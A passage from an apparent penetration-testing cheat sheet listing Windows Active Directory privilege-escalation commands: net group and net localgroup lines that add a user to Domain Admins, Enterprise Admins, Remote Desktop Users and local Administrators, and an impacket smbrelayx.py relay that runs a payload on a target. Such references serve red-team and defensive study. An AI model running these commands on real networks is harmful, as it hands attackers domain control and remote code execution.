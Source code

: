 https://technet.microsoft.com/en-us/library/bb490949.aspx
https://technet.microsoft.com/en-us/library/cc771865(v=ws.11).aspx
__________
### 7. Add [User] to the domain admins group
```
net group "Domain Admins" [user] /add /domain
```
**- user information,Windows,privilege escalation**
#### References:

https://technet.microsoft.com/en-us/library/bb490949.aspx
https://technet.microsoft.com/en-us/library/cc754051(v=ws.11).aspx
__________
### 8. Add user to enterprise admins
```
net group "Enterprise Admins" [user] /add /domain
```
**- user information,Windows,privilege escalation**
#### References:

https://technet.microsoft.com/en-us/library/bb490949.aspx
https://technet.microsoft.com/en-us/library/cc754051(v=ws.11).aspx
__________
### 9. Add user to the RDP group
```
net localgroup "Remote Desktop Users" [user] /add /domain
```
**- user information,Windows,privilege escalation**
#### References:

https://technet.microsoft.com/en-us/library/bb490949.aspx
https://technet.microsoft.com/en-us/library/cc754051(v=ws.11).aspx
__________
### 10. Add a user to the local admin group, not as useful any more
```
net localgroup "Administrators" [user] /add /domain
```
**- user information,Windows,privilege escalation**
#### References:

https://technet.microsoft.com/en-us/library/bb490949.aspx
https://technet.microsoft.com/en-us/library/cc754051(v=ws.11).aspx
__________
### 11. smbrelay targeted
```
smbrelayx.py -h [TARGETIP] -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:
